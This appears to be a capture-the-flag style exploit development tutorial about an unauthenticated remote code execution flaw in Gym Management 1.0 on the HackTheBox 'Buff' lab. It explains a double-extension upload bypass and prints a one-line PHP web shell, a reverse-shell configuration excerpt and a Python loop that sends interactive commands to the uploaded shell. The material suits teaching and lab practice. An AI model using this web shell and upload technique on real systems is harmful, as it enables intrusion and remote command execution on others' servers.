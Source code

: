 # ExploitDev Journey #5 | Gym Management 1.0 unauthenticated RCE
Original Exploit: https://www.exploit-db.com/exploits/48506 <br>


**Exploit name:** Gym Management 1.0 unauthenticated RCE  <br>
**CVE**: N\\A <br>
**Lab**: Buff - HackTheBox

### Description
There is an unrestricted image upload path within Gym management 1.0 web app that allows unauthenticated users to upload files. The functionality also suffer from a misconfiguration that allows as to upload PHP shells by using the [double extension file upload bypass](https://book.hacktricks.xyz/pentesting-web/file-upload).

<br>

### How it works
The path to upload files is `http://target.htb/upload.php?id=shell.php` and it's unrestricted, this allows anyone to upload files. But the bad thing is that there isn't enough restrictions of whitelisting/blacklisting against the type of files you can upload. I guess this is the path where admins can upload whatever they want so they don't really thought about protecting it, but leaving it unrestricted allows people to upload things, whether malicious or not. <br>
In order to upload a php file, all you have to do is to add two extensions to the file name, like this: `file_name.php.jpg`
Here the JPEG file extension is allowed but PHP isn't, but the application only reads the last extension which is `.jpg` and from there it assumes that your file is a harmless image, but when the file is stored on the server, it will be stored with the first extension which is `.php` and not `.jpg`.

<br>

### Writing the exploit
Writing the exploit is very easy but there is one little detail here, remember that in exploit development session of `CVE-2019-16113` I used a [PHP reverse shell from PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)?
Here we can't use that, we just can't upload it because that reverse shell only works on Linux systems. Look at these variables at the beginning of that shell:
```php
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

The `$shell` variable indicates that linux commands separated by semicolons are being used.

> `shell = '<?php echo shell_exec($_GET["rce"]); ?>'`

Here as you can see I am creating a GET parameter named `rce` and I am also using `echo` for printing and `shell_exec` for executing system commands. By uploading this shell, you can execute system commands from your browser like this:
<img src="https://i.ibb.co/tB1VqWb/buff1.png">

But I have automated all of these operations so you won't have to open your browser.
<br>
By now you already understand most of what's going on, given that you have followed the ExploitDev journey step by step. However I would still like to highlight something inside the try:except clause.

> `upload(target)`

Here is the part that I would like to explain (partially):
```py
try:
    upload = session.post(url=upload_path, files=file, data=data, verify=False, timeout=30)
    if upload.status_code != 200:
        sys.exit(f"Uploading {shell_name} failed, exiting.")
    else:
        print(f"Shell has been uploaded: {uploaded}")
        print(70 * '-')
        while True:
            try:
                params = {'rce': input("Shell> ")}
                command = session.get(url=uploaded, params=params, verify=False, timeout=30)
                print(command.text)
            except requests.exception.Timeout:
                sys.exit(f"[ - ] Timeout error, unable to connect to {target}")
except requests.exception.Timeout:
    sys.exit(f"[ - ] Timeout error, unable to connect to {target}")
```

The `while` statement and the block of code inside it are new topics. Remember that uploading a shell that's specific to one operating system often causes misery and failure but uploading a shell that's kind of universal and independent of the operating system always works. For example `shell_exec` function is independent of operating system running on the target and is just a function of PHP that works anywhere PHP is running.

I created an infinite while loop that allows you to interact with the shell and whenever you execute a system command, you send out a new request. Let's take a close look into `params` variable:
```py
params = {'rce': input("Shell> ")}
```

Earlier I explained that our `shell` variable contains PHP code that creates a parameter named RCE and uses `echo` and `shell_exec` to execute system commands and print their output. The way we use parameters in Python is just shown in the above code. `rce` is the name of your parameter, it's value is taken from keyboard input.
Take a look here one more time and you will understand:
```
http://10.129.112.165:8080/upload/oBWTPlSolx.php?rce=whoami
```

Instead of using the `input()` function, you can use plaintext as well but using `input()` especially with a string inside to prettify it makes it more convenient to use. After sending GET request along with the parameters, then you print out the results.

Here is how it looks like when executed:<br>
<img src="https://i.ibb.co/YbxwKm9/buff2.png">

Remember that we used `echo` which is a function in PHP used for printing data, here we print that inside the web application and grab the results with `print(command.text)`. <br>
Notice that `ls` is not a windows command and it doesn't return anything.


### Final thoughts
In this exploit development session you learned about using PHP shells that are kind of universal and work wherever PHP is running, they are independent of the operating system and they work most of the time. You also learned about beautifying the way you capture user's input to make it more convenient to use.

